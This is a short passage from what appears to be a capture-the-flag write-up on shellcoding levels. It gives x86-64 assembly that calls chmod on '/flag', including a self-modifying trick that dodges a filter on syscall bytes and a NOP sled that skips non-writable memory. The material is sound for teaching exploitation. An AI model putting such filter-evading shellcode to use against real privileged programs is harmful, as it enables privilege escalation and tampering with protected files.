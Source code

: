 Hmm...

```
  GNU nano 4.8                                                                                        shellcode.s                                                                                                   
.global _start_
_start:
.intel_syntax noprefix
        # Chmod syscall
        push 0x67616c66
        push rsp
        pop rdi
        mov sil, 4
        mov al, 0x5a
        syscall
```

This only works if in the root dir otherwise you can't have the full string with /flag


## 5 - No syscalls!!! 0x050f

```
.global _start_
_start:
.intel_syntax noprefix
        mov al, 0x5a
        mov sil, 4
        lea rdi, [rip+flag]
        inc word ptr [rip + sys1]
        lea rbx, [rip+sys1]
        call rbx
sys1:
        .word 0x050e
flag:
        .string "/flag"
```



## 6 - first 4096 bytes are non writeable

Add a nop sled

```
  GNU nano 4.8                                                                                        shellcode.s                                                                                                   
.global _start_
_start:
.intel_syntax noprefix
        .rept 0x1000        # Repeat the following instruction 0x1000 times
        nop                # NOP instruction
        .endr              # End of repetition

        mov al, 0x5a
        mov sil, 4
        lea rdi, [rip+flag]
        inc word ptr [rip + sys1]
        lea rbx, [rip+sys1]
        call rbx
sys1:
        .word 0x050e
flag:
        .string "/flag"
```